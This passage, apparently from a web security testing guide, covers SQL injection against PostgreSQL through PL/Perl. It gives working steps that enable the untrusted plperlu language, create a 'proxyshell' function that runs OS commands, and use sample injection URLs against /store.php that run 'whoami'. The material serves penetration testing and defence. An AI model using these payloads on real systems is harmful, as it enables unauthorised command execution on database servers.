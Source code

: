 ##### Plperl

Plperl allows us to code PostgreSQL functions in perl. Normally, it is installed as a trusted language in order to disable runtime execution of operations that interact with the underlying operating system, such as `open`. By doing so, it's impossible to gain OS-level access. To successfully inject a proxyshell like function, we need to install the untrusted version from the `postgres` user, to avoid the so-called application mask filtering of trusted/untrusted operations.

- Check if PL/perl-untrusted has been enabled: `SELECT count(*) FROM pg_language WHERE lanname='plperlu'`
- If not, assuming that sysadm has already installed the plperl package, try: `CREATE LANGUAGE plperlu`
- If either of the above succeeded, create a proxy shell function: `CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,"$_[0] |");return join("",<FD>);' LANGUAGE plperlu`
- Have fun with: `SELECT proxyshell(os command);`

###### Example

- Create a proxy shell function: `/store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,"$_[0] |");return join("",<FD>);' LANGUAGE plperlu;`
- Run an OS Command: `/store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;--`

## References

- [Testing for SQL Injection](05-Testing_for_SQL_Injection.md)
- [SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [PostgreSQL Official Documentation](https://www.postgresql.org/docs/)
- [Bernardo Damele and Daniele Bellucci: sqlmap, a blind SQL injection tool](https://sqlmap.org/)

